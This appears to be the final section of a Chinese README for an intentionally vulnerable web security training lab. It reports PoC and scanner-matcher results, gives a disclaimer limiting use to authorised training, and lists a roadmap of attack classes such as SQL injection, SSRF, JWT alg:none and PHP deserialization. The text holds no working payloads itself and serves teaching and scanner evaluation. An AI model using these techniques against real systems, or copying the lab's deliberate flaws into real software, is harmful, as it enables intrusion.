修完之后在靶场上误报从 6 条降到 3 条，剩下的 3 条全是真实的 SQL 注入。

相关代码与注释见：
- `pocs/poc_sqli.py` 的 `detect_columns()`
- `pocs/vulnlab-sqli-low-union.yaml` 的 negative matcher
- 配套平台的 `asp/pocs/swagger-api-docs-exposure.yaml`

---

## ⚠️ 免责声明

**本项目是故意包含漏洞的教学代码。**

- 允许：本地环境学习、授权渗透测试培训、扫描器效果评测、CTF 训练
- 禁止：部署到公网、用于任何未经授权的测试、把其中代码用于生产系统

靶场中的「凭据」全是假数据，`secret` 字段只是可验证的通关标记，不含任何真实信息。

**所有测试请只针对你自己拥有或已获得书面授权的目标。**

---

## 路线图

- [x] SQL 注入（low / medium / high + Writeup + PoC）
- [x] XSS（反射型）
- [x] 文件上传（后缀 / MIME 绕过）
- [x] SSRF（打内网服务）
- [x] 命令注入与过滤绕过
- [x] 文件包含（LFI / `php://filter` / 路径穿越）
- [x] PHP 反序列化（POP 链构造 / `allowed_classes` 修复对照）
- [x] 越权（水平 / IDOR / 身份来源与归属校验）
- [x] XXE（内联实体 / 外部 DTD / 禁用外部实体加载器）
- [x] JWT（`alg:none` / 弱密钥爆破 / 算法白名单 + 高熵密钥）
- [x] CSRF（无防护 / Referer 子串绕过 / 一次性 token）
- [x] SSTI（表达式注入 / 反引号绕过 / 变量白名单）
- [ ] XSS 的存储型与 DOM 型
- [ ] 为每个漏洞补充「自动化利用脚本」与「基准测试用例集」

---

## 许可

MIT（教学用途）。使用者需自行确保合规。
